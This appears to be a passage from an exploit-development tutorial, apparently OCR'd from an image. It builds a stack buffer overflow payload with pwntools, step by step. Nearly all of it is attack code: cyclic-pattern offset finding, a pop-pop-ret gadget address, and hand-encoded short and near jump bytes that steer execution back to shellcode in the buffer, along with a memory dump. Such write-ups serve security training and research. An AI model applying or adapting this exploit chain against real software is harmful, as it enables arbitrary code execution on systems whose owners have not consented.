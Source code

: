 All the gadgets start with a `0x00` which means we wont be able to use anything after this gadget. For now we can see where we land, and potentially use a `jmp` to go back to the start of the buffer, where the shellcode has already been written.
```
max_buf = 0x384
 
body = pwn.util.cyclic.cyclic_metasploit(max_buf)
deref_off = pwn.util.cyclic.cyclic_metasploit_find(0x77413177)
ppr = 0x00409569 #pop esi; pop ebp; ret; 

body = pwn.util.cyclic.cyclic_metasploit(deref_off)
#body = b"A"*deref_off
body += pwn.p32(ppr)
body += b"C"*4
body += b"D" * (max_buf - len(body))
```

After the PPR `eip` is at `0x9efbe4` while the top of our input buffer is at `0x9ef950`, so a jump of `0x294` would place `eip` at the top of the stack.
```
max_buf = 0x384
 
body = pwn.util.cyclic.cyclic_metasploit(max_buf)
deref_off = pwn.util.cyclic.cyclic_metasploit_find(0x77413177)
ppr = 0x00409569 #pop esi; pop ebp; ret; 

body = pwn.util.cyclic.cyclic_metasploit(deref_off)
eip_off = pwn.util.cyclic.cyclic_metasploit_find(0x41307741)

body = b"A"*eip_off
body += b"B"*4
body += b"A"*(deref_off - len(body))
body += pwn.p32(ppr)
body += b"C"*4
body += b"D" * (max_buf - len(body))
```

Running the above shows that we only have 4 btyes to do the `jmp` 
```
41414141 000000C8 41414141 41414141
41414141 42424242 00409569 00000005
```

What we can do is a short jump "back" 12 to the start of the `0x41`'s then a jump to the top of the buffer.
```
body = b"A"*(eip_off -12)
body += b"\xE9\x73\xFD\xFF\xFF"
body += b"\x90\x90\x90"
body += b"\x90\x90\x90\x90"

body += b"\xEB\xF2\x90\x90"
body += b"A"*(deref_off - len(body))
body += pwn.p32(ppr)
body += b"C"*4
body += b"D" * (max_buf - len(body))
```
